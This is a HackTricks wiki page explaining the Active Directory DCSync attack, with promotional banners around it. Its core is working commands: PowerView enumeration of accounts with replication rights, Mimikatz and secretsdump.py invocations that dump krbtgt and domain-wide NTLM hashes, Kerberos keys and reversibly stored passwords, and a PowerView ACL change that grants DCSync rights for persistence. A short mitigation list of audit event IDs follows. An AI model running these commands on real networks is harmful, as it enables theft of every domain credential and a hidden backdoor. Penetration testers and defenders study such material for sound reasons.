 # DCSync

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Use [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=dcsync) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=dcsync" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## DCSync

The **DCSync** permission implies having these permissions over the domain itself: **DS-Replication-Get-Changes**, **Replicating Directory Changes All** and **Replicating Directory Changes In Filtered Set**.

**Important Notes about DCSync:**

* The **DCSync attack simulates the behavior of a Domain Controller and asks other Domain Controllers to replicate information** using the Directory Replication Service Remote Protocol (MS-DRSR). Because MS-DRSR is a valid and necessary function of Active Directory, it cannot be turned off or disabled.
* By default only **Domain Admins, Enterprise Admins, Administrators, and Domain Controllers** groups have the required privileges.
* If any account passwords are stored with reversible encryption, an option is available in Mimikatz to return the password in clear text

### Enumeration

Check who has these permissions using `powerview`:

```powershell
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
```

### Exploit Locally

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### Exploit Remotely

```powershell
secretsdump.py -just-dc <user>:<password>@<ipaddress> -outputfile dcsync_hashes
[-just-dc-user <USERNAME>] #To get only of that user
[-pwd-last-set] #To see when each account's password was last changed
[-history] #To dump password history, may be helpful for offline password cracking
```

`-just-dc` generates 3 files:

* one with the **NTLM hashes**
* one with the the **Kerberos keys**
*   one with cleartext passwords from the NTDS for any accounts set with [**reversible encryption**](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/store-passwords-using-reversible-encryption) enabled. You can get users with reversible encryption with

    ```powershell
    Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
    ```

### Persistence

If you are a domain admin, you can grant this permissions to any user with the help of `powerview`:

```powershell
Add-ObjectAcl -TargetDistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName username -Rights DCSync -Verbose
```

Then, you can **check if the user was correctly assigned** the 3 privileges looking for them in the output of (you should be able to see the names of the privileges inside the "ObjectType" field):

```powershell
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{$_.IdentityReference -match "student114"}
```

### Mitigation

* Security Event ID 4662 (Audit Policy for object must be enabled) – An operation was performed on an object
* Security Event ID 5136 (Audit Policy for object must be enabled) – A directory service object was modified
* Security Event ID 4670 (Audit Policy for object must be enabled) – Permissions on an object were changed
* AD ACL Scanner - Create and compare create reports of ACLs. [https://github.com/canix1/ADACLScanner](https://github.com/canix1/ADACLScanner)

## References

* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)
* [https://yojimbosecurity.ninja/dcsync/](https://yojimbosecurity.ninja/dcsync/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

\
Use [**Trickest**](https://trickest.com/?utm_source=hacktricks&utm_medium=text&utm_campaign=ppc&utm_term=trickest&utm_content=dcsync) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_source=hacktricks&utm_medium=banner&utm_campaign=ppc&utm_content=dcsync" %}
